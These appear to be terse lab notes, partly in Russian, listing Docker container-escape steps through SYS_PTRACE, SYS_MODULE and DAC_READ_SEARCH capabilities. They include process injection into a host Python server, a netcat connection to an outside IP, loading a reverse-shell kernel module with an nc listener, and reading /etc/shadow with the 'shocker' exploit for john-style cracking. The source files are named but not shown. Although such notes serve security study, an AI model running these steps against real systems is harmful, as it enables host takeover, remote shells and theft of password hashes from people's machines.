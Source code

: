 > docker run -it --rm --pid=host --cap-add=SYS_PTRACE --security-opt apparmor=unconfined myubuntu bash

> ps -eaf | grep "/usr/bin/python3 -m http.server 8080" | head -n 1

> vim inject.c

> gcc -o inject inject.c

> ./inject <PID>

> nc 192.168.1.12 5600

> whoami

> sudo -i

> docker ps

## CAP SYS_MODULE
> lsb_release -a

> docker run -it --cap-add=SYS_MODULE ubuntu:20.04 bash

> apt update

> version=$(uname -r)

> apt install -y make vim netcat gcc linux-headers-$version kmod net-tools

> vim Makefile

> vim reverse-shell.c

change IP!!! container IP

> make

> nc -lnvp 4444 & /usr/sbin/insmod reverse-shell.ko

может понадобится несколько попыток, для выгрузки используйте 

> rmmod reverse-shell.ko

## CAP DAC_READ_SEARCH
на локальной машине
> sudo passwd root

> docker run -it --cap-add=DAC_READ_SEARCH myubuntu bash

> apt install -y vim ssh gcc john net-tools netcat

> vim shocker.c

> gcc -o shocker shocker.c

> ./shocker /etc/passwd passwd

> ./shocker /etc/shadow shadow

> unshadow passwd shadow > password
